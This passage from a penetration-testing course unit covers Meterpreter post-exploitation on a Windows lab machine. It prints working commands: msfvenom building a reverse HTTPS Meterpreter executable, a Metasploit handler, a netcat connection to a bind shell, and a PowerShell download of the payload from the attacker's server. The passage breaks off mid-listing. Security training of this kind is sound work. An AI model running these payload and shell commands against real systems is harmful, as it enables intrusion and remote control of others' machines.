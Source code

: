 In this Learning Unit, we'll explore these post-exploitation features and modules. We'll also perform pivoting with modules of the Metasploit Framework.

## 21.3.1. Core Meterpreter Post-Exploitation Features

In previous sections, we used the Meterpreter payload to navigate the file system, obtain information about the target system, and transfer files to and from the machine. Apart from the commands we already used, Meterpreter contains numerous post-exploitation features.

Let's explore some of these features. We should note that the Linux Meterpreter payload contains fewer post-exploitation features than the Windows one. Therefore, we'll explore these features on the Windows target ITWK01. Let's assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system.

To begin, we'll create an executable Windows binary with msfvenom containing a non-staged Meterpreter payload and name it **met.exe**.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201820 bytes
Final size of exe file: 208384 bytes
Saved as: met.exe
```

> Listing 55 - Create a Windows executable with a Meterpreter reverse shell payload

After we set the payload and its options, we launch the previously activated multi/handler module in Metasploit.

```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

> Listing 56 - Set options and start multi/handler

Next, we start a Python3 web server to serve **met.exe**. Then, we connect to the bind shell on port 4444 on ITWK01. Once connected, we can download **met.exe** with PowerShell and start the Windows binary.

```
kali@kali:~$ nc 192.168.50.223 4444
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

```